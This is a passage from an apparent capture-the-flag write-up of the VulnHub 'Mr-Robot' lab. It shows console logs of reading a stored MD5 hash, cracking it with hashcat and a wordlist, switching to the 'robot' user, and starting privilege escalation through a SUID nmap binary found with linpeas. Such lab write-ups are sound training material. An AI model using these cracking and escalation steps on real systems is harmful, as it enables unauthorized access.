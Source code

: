 ```console
daemon@linux:/opt/bitnami/apps/wordpress/htdocs/wp-content/uploads/2021/01$ 
daemon@linux:/home$ ls
robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

#### Cracking MD5 using hashcat

```bash
$ hashcat -m 0 files/password.raw-md5 /usr/share/wordlists/rockyou.txt
#...
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
#...
```

Now that we have his password, we can get `key-2-of-3.txt`'s content:

```console
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```

### Road to `root`

I executed [linpeas.sh](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) to look for possible ways to get `root`. 

Surprisingly, there is `nmap` among the SUID binaries: 

![nmap SUID](https://pymaster-ft.github.io/assets/img/vulnhub/linux/mr-robot/nmap.png)

We can check on [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) how we can perform a privesc:

![nmap interactive shell](https://pymaster-ft.github.io/assets/img/vulnhub/linux/mr-robot/nmap-shell.png)
